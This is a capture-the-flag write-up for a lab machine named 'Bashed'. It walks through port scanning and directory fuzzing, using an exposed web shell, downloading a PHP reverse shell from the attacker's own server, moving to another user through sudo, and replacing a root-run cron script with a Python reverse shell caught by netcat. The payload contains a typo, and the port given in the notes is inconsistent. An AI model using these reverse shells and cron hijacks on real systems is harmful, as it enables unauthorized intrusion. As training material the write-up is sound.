





***Description***: Bashed is an easy Linux machine focused on web fuzzing and locating exposed development files. After discovering a functional phpbash instance, access is gained as `www-data` and escalated to `scriptmanager` through sudo permissions. As direct crontab access is restricted, root escalation relies on identifying writable scripts executed by a root-owned scheduled task.

***Used Tools:
- Nmap
- BurpSuite

***Enumeration/ Port Scanning:
		After receiving the ip address, I ran a port scan using nmap. That's useful for detecting open ports.
			1. nmap -sS  -T4 machine_ip
				1.1 -sS is for nmap use just TCP SYN to scan, and not to the complete three-way-handshake (That's quieter and fast)
				1.2 -T4 is just a speed  indicator to nmap (T1-T5)
				1.3 Response: 80/tcp open  http 
			2. nmap -sV -p 80 machine_ip
				2.1 -sV is for nmap do it the three-way-handshake and after that, detecting the software version that is been used
				2.2 -p is to indicate the port
				2.3 Response: 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) ->this version has a lot of CVES 
		Apparently the machine has just a web application. I ran a directory enumeration using ffuf , to detect the web app directories.
			3. ffuf -u http://10.129.51.235/FUZZ/ -w /usr/share/wordlists/Web-content/raft-large-dir.txt
				3.1 -u is to indicate the URL
				3.2 -w is to indicate the wordlist
				3.3 Response: uploads   [Status: 200]  - dev    [Status: 200]  - php  [Status: 200] 

***Exploitation 
		Exploring the /dev/ directory, i found a php bash in /dev/phpbash.php (www-data@bashed:/var/www/html/dev#).  After that, to estabilished a reverse shell, i use php revshell from PentestMonkey. 
			1. python -m http.server 8081 (on my machine)
				1. That´s to up a http server to the target machine download  the phprevshell.php
			2.  wget http://my_machine_ip:8081/phprevshell.php (that has to be execute on /upload, because the www-data is permitted)
			3. GET /uploads/phprevshell.php to execute the php script
		With that, i got a reverse shell ($ id uid=33(www-data) gid=33(www-data) groups=33(www-data))	. To aprimore the shell i use  python3 -c 'import pty; pty.spawn("/bin/bash")'
		
		.
		Running sudo -l (to list the permitted comands from the actual user www-data)
		
		.
		That reveals that the www-data user can run any command as scriptmanager. So after that, i  went to the arrexel home, and i find user.txt!
		. 
		Thereafter, listing the directorys in root filesystem, i found a directory /scripts that can be acessed by scriptmanager. To change to scriptmanager user i use sudo -u scriptmanager -i bash.
		.
		Looking at the information of the files in the directory shows that test.py appears to be executed every minute by root. That can be assumed because the script test.py write in test.txt (just root can write, so test.py has been executed by root) and timestamp. So what we can do is modifyng that script
			4. echo 'import socket,subprocess,os
					s=socket.socker(socket.AF_INET, socket.SOCK_STREAM)
					s.connect(("10.10.15.3",1234));
					os.dup2(s.fileno(),0)
					os.dup2(s.fileno(),1)
					os.dup2(s.fileno(),2)
					p=subprocess.call(["/bin/sh","-i"])'
				4.1 This script does a socket connection on my address using socket lib, and call for /bin/sh (basically to obtain a rev shell with root user)
			5. nc -lnvp 1234 (on my machine)
				5.1 I use netcat to open the port 4444, that is going to receive the socket connection. pwn
		!